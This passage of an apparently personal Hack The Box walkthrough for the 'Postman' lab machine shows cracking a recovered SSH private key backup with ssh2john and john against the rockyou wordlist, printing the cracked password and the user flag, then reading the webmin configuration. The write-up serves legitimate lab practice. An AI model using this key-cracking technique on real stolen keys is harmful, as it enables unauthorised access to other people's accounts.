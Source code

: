 good old ssh to john and then john with rockyou.

```sh
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# mkdir Matt
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# cd Matt/
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# nano id_rsa.bak
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# /usr/share/john/ssh2john.py id_rsa.bak >> hash
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:13 DONE (2020-02-14 13:45) 0.07627g/s 1093Kp/s 1093Kc/s 1093KC/sa6_123..*7¡Vamos!
Session completed
```

ssh in didn't work so i went with `su Matt` and that worked *shrug*, do what you gotta do.

```
redis@Postman:/$ su Matt 
Password: 
Matt@Postman:/$ cd ~
Matt@Postman:~$ cat user.txt 
517ad0ec2458ca97af8d93aac08a2f3c
```

    `517ad0ec2458ca97af8d93aac08a2f3c`

### What the hell is webmin

Ok i had to find out what is going on with the `webmin`, so i had a look at the config file.
it mentions `Matt` a bit so i assume `Matt` has some kinda access.

```sh
Matt@Postman:/etc/webmin$ cat config 
find_pid_command=ps auwwwx | grep NAME | grep -v grep | awk '{ print $2 }'
path=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin
passwd_uindex=0
ld_env=LD_LIBRARY_PATH
tempdelete_days=7
by_view=0
passwd_pindex=1
passwd_mindex=4
passwd_cindex=2
passwd_file=/etc/shadow
os_type=debian-linux
os_version=9.0
real_os_type=Ubuntu Linux
real_os_version=18.04.3
lang=en.UTF-8
log=1
referers_none=1
md5pass=1
theme=authentic-theme
product=webmin
webprefix=
realname_Matt=Matt
```
